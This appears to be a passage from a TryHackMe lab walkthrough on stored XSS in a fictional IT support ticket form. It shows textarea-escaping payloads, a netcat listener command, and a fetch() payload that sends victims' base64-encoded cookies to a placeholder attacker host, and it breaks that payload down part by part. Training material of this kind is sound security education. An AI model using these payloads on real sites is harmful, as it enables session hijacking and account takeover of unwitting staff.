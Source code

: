 Let's now go back and create another ticket. Let's see if we can escape the textarea tag by entering the following payload into the ticket contents:

```html
</textarea>test
```

Again, opening the ticket and viewing the page source, we've successfully escaped the text area tag.

```html
    <div><label>Ticket Created:</label> 23/08/2021 12:24</div>
    <div><label>Ticket Contents:</label></div>
    <div><textarea class="form-control"></textarea>test</textarea></div>
  </div>
</div>
```

Let's now expand on this payload to see if we can run JavaScript and confirm that the ticket creation feature is vulnerable to an XSS attack. Try another new ticket with the following payload:

```html
</textarea><script>alert('THM'):</script>
```

Now when we view the ticket, we should get an alert box with the string THM. We're going to now expand the payload even further and increase the vulnerabilities impact. Because this feature is creating a support ticket, we can be reasonably confident that a staff member will also view this ticket which we could get to execute JavaScript.

> Some helpful information to extract from another user would be their **cookies**, which we could use to elevate our privileges by hijacking their login session. To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver of our choice. Firstly, we'll need to set up a listening server to receive the information. 

Using the AttackBox, let's set up a listening server using `Netcat`. If we want to listen on port 9001, we issue the command `nc -l -p 9001`. The `-l` option indicates that we want to use Netcat in listening mode, while the `-p` option is used to specify the port number. To avoid the resolution of hostnames via DNS, we can add `-n`; moreover, to discover any errors, running Netcat in verbose mode by adding the `-v` option is recommended. The final command becomes `nc -n -l -v -p 9001`, equivalent to `nc -nlvp 9001`.

```
user@machine$ nc -nlvp 9001 Listening on [0.0.0.0] (family 0, port 9001)`
```

Now that we've set up the method of receiving the exfiltrated content, let's build the payload.

```html
</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>
```

Let's break this payload down:

- The `</textarea>` tag closes the text field area.
- The `<script>` tag opens an area for us to write JavaScript.
- The `fetch()` command makes an HTTP request.
- `URL_OR_IP` is either the THM request catcher url, your IP address from the THM AttackBox, or your IP Address on the THM VPN network.
- `PORT_NUMBER` is the port number you are using to listen to connections on the AttackBox.
- `?cookie=` is the query string containing the victim's cookies.
- `btoa()` command base64 encodes the victim's cookies.
- `document.cookie` accesses the victim's cookies for the Acme IT Support website.
- `</script>` closes the JavaScript code block.
